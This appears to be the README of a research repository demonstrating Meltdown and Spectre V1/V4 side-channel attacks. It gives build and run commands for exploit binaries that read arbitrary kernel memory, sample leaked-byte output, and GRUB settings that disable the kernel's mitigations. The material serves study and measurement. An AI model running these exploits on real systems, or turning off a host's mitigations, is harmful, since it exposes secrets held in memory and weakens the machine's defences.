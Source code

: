 # Meltdown / Spectre
This repository contains code that demonstrates how Meltdown and Spectre vulnerabilities work and shows the differences between them. It also contains measurement functions for comparing results.
## Meltdown [(CVE-2017-5754)](https://nvd.nist.gov/vuln/detail/CVE-2017-5754)
The Meltdown implementation contains three types of malicious payload that were introduced in the original Meltdown [repository](https://github.com/IAIK/meltdown).
- meltdown
- meltdown_nonull
- meltdown_fast
#### Build
```bash
make
```
or
```bash
make meltdown
```
#### Run
```bash
./meltdown [address] [length]
```
```bash
./meltdown_nonull [address] [length]
```
```bash
./meltdown_fast [address] [length]
```
Run examples without arguments to read data from local process memory.
## Spectre Variant 1 [(CVE-2017-5753)](https://nvd.nist.gov/vuln/detail/CVE-2017-5753)
Spectre implementation from the original Spectre [paper](https://spectreattack.com/spectre.pdf).
#### Build
```bash
make
```
or
```bash
make spectre_v1
```
#### Run
```bash
./spectre_v1 [address] [length]
```
Run example without arguments to read data from local process memory.
## Spectre Variant 4 [(CVE-2018-3639)](https://nvd.nist.gov/vuln/detail/CVE-2018-3639)
Implementation of the Speculative Store Bypass, aka Spectre V4. This vulnerability works worse than Meltdown or Spectre V1 and doesn't work under VW. Code contains two variants of the malicious payload. The first variant is written in C and its instructions are compiler-dependent. For example, GCC does unnecessary register manipulation. The second variant is written in assembly language and remains unmodified after compilation.
- spectre_v4
- spectre_v4_asm
#### Build
```bash
make
```
or
```bash
make spectre_v4
```
#### Run
```bash
./spectre_v4 [address] [length]
```
```bash
./spectre_v4_asm [address] [length]
```
Run examples without arguments to read data from local process memory.
## Testing
The Meltdown repository contains [tools](https://github.com/IAIK/meltdown/blob/master/README.md#demo-4-read-physical-memory-physical_reader) that can be used to test these vulnerabilities on Linux systems. Use `secret` tool to put the secret string into memory. Use `direct_physical_map.sh` script to extract the physical memory offset from the kernel.
### Results
The results table contains information for all bytes read, including: virtual address, status, 1st and 2nd best guesses with their scores, number of attempts, number of zero checks.
```
./meltdown 0xffff97480b415188 50
CVE-2017-5754: Meltdown (null)
Flush+Reload: 323 cycles, Reload only: 36 cycles
Flush+Reload threshold: 131 cycles
Reading 50 bytes in 1000 tries:
0xffff97480b415188    STATUS  1st   SCORE  2nd   SCORE TRIES ZEROS
0xffff97480b415188      Zero 0x43 C     3    -       -   945     5
0xffff97480b415189   Success 0x6F o     3    -       -     3     -
0xffff97480b41518a   Success 0x6E n     3    -       -   215     -
0xffff97480b41518b   Success 0x67 g     3    -       -     3     -
0xffff97480b41518c   Success 0x72 r     3    -       -     3     -
0xffff97480b41518d   Success 0x61 a     3    -       -     4     -
...
```
```
./meltdown_fast 0xffff97480b415188 50
CVE-2017-5754: Meltdown (fast)
Flush+Reload: 397 cycles, Reload only: 38 cycles
Flush+Reload threshold: 157 cycles
Reading 50 bytes in 1000 tries:
0xffff97480b415188    STATUS  1st   SCORE  2nd   SCORE TRIES ZEROS
0xffff97480b415188      Zero 0x43 C     5 0x58 X     1   776   757
0xffff97480b415189      Zero 0x6F o     5 0xD0       1   901   797
0xffff97480b41518a      Zero 0x6E n     5 0x43 C     1   507   395
0xffff97480b41518b   Success 0x67 g     3    -       -   147     -
0xffff97480b41518c      Zero 0x72 r     3 0x5D ]     1  1000   862
0xffff97480b41518d      Zero 0x61 a     3    -       -   546   115
...
```
```
./spectre_v4 0xffff97480b415188 50
CVE-2018-3639: Spectre Variant 4 (compiler-dependent)
Flush+Reload: 379 cycles, Reload only: 40 cycles
Flush+Reload threshold: 153 cycles
Reading 50 bytes in 4000 tries:
0xffff97480b415188    STATUS  1st   SCORE  2nd   SCORE TRIES ZEROS
0xffff97480b415188   Unclear 0xFF       1 0xF5       1  4000     -
0xffff97480b415189   Unclear 0xB7       1 0x16       1  4000     -
0xffff97480b41518a   Unclear 0x8E       1 0x79 y     1  4000     -
0xffff97480b41518b Undefined    -       -    -       -  4000     -
0xffff97480b41518c   Unclear 0xEB       1 0x75 u     1  4000     -
0xffff97480b41518d   Unclear 0xD4       1 0xCA       1  4000     -
...
```
Byte status can be one of:
- `Success` - byte was detected successfully `(score_1 >= score_2 * 2)`
- `Unclear` - the result is unclear, check also the second guess
- `Zero` - the result is defined, but a zero byte with best score was detected (see ZEROS column). Read more about this case in the original Meltdown [paper](https://meltdownattack.com/meltdown.pdf)
- `Undefined` - no results, byte undefined
## Implementation for Windows
Spectre V1 and V4 examples can be compiled for Windows using the MinGW compiler. While Meltdown implementation uses POSIX signals that are not fully supported on Windows.
#### Build
```bash
make win
```
#### Run
```bash
spectre_v1.exe [address] [length]
```
```bash
spectre_v4.exe [address] [length]
```
```bash
spectre_v4_asm.exe [address] [length]
```
Run examples without arguments to read data from local process memory.
## Additional Information
### Check Meldown and Spectre protection on Linux
Run commands:
```bash
$ cat /sys/devices/system/cpu/vulnerabilities/meltdown
Vulnerable    
$ cat /sys/devices/system/cpu/vulnerabilities/spectre_v1
Vulnerable: __user pointer sanitization and usercopy barriers only; no swapgs barriers
```
### Disable Meldown and Spectre protection on Linux
Add or change this line in the file `/etc/default/grub`
```
GRUB_CMDLINE_LINUX="nospectre_v1 nopti"
```
Then run command:
```bash
sudo update-grub
```
## References
* [Spectre Paper](https://spectreattack.com/spectre.pdf)
* [Meltdown Paper](https://meltdownattack.com/meltdown.pdf)
* [Meltdown Source Code](https://github.com/IAIK/meltdown)
* [CVE-2017-5715: Spectre Variant 2 - Branch Target Injection](https://nvd.nist.gov/vuln/detail/CVE-2017-5715)
* [CVE-2017-5753: Spectre Variant 1 - Bounds Check Bypass](https://nvd.nist.gov/vuln/detail/CVE-2017-5753)
* [CVE-2017-5754: Meltdown Variant 3 - Rogue Data Cache Load](https://nvd.nist.gov/vuln/detail/CVE-2017-5754)
* [CVE-2018-3639: Spectre Variant 4 - Speculative Store Bypass](https://nvd.nist.gov/vuln/detail/CVE-2018-3639)
* [CVE-2018-3640: Meltdown Variant 3a - Rogue System Register Read](https://nvd.nist.gov/vuln/detail/CVE-2018-3640)
